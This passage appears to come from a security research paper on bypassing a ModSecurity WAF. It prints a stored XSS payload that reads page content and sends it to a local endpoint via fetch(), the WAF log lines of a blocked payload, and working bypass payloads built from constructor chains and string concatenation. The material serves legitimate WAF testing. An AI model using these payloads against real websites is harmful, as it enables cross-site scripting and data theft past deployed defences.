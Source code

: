 \begin{lstlisting}[style=basicStyle, caption=stored xss bypass payload]
<a href=j&#97vascript:var secret = document.getElementsByName('name')[0]&#46innerHTML;var data = {body:secret,method:'POST'};fetch('http:\//localhost:3001/api/ping?secret=something',data)>ClickMeFor$</a>
\end{lstlisting}


\subsubsection{Function constructor + String concatenation}
\label{sec:funconstrconbypass}
In this test, the payload logic should include multiple statements and reveal a secret by accessing a property.
The basic implementation was blocked by the ModSecurity firewall:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=function constructor blocked, label={lst:funconblocked}]
<payload>new Function('var s = "secret";prompt("something", s)')()</payload>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"new Function("</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}

To evade rule with id \verb|934100|, calling the \verb|Function()| constructor was substituted with \verb|[]['constructor']['constructor']()|. Using string concatenation to replace the character sequence \verb|'prompt'| with \verb|'promp + t'| successfully made the payload evade rule \verb|941390| and bypass the WAF. The bypassing payload:

\begin{lstlisting}[style=basicStyle, caption=function constructor bypass payload using square bracket notation]
[]['constructor']['constructor']('var s = "secret";promp' + 't("something", s)')()
\end{lstlisting}

Similarly, using the dot-syntax instead of bracket-access, the following payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption=function constructor bypass payload using dot notation]
[].constructor.constructor('var s = "secret";promp' + 't("something", s)')()
\end{lstlisting}

